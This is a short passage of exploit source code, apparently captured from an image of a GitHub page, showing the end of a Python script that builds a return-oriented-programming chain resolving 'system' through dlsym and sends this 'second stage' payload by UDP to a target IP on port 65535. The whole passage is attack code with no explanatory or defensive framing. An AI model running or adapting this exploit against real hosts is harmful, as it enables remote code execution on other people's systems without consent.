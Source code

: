 ```
    e.bss(second_stage_offset_into_bss + second_stage_data_offset),
    2,                              # RTLD_NOW (why not)

    # write the returned handle to the stack
    zero_edx,
    inc_edx,
    pop_ebx,
    e.bss(second_stage_offset_into_bss - 0x80),                   # somewhere in the bss
    eax_to_stack,                   # write the handle to the stack
    e.plt['dlsym'],
    pop2_ret,
    0x41516171,                     # placeholder, libc handle is written here
    e.bss(second_stage_offset_into_bss + second_stage_data_offset + len(libc_str)),      # address is 'system' string

    # write the returned address to the stack
    zero_edx,
    inc_edx,
    pop_ebx,
    e.bss(second_stage_offset_into_bss - 0x80),                   # somewhere in the bss
    eax_to_stack,                   # write the handle to the stack
    ret,
    ret,
    0x51617181,                     # placeholder, the address of system gets written here
    0x854ae76,                      # continuation of execution: a simple infinite loop of 0xeb 0xfe
    e.bss(second_stage_offset_into_bss + second_stage_data_offset + len(libc_str) + len(system_str))
)

print('* Sending second stage to udp/65535')
# print repr(second_stage)
second_stage_final = second_stage.ljust(second_stage_data_offset) + second_stage_data
s_65535 = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s_65535.sendto(second_stage_final.ljust(0x25f), (IP, PORT_SECOND_STAGE))
s_65535.close()
print('! Done.')
```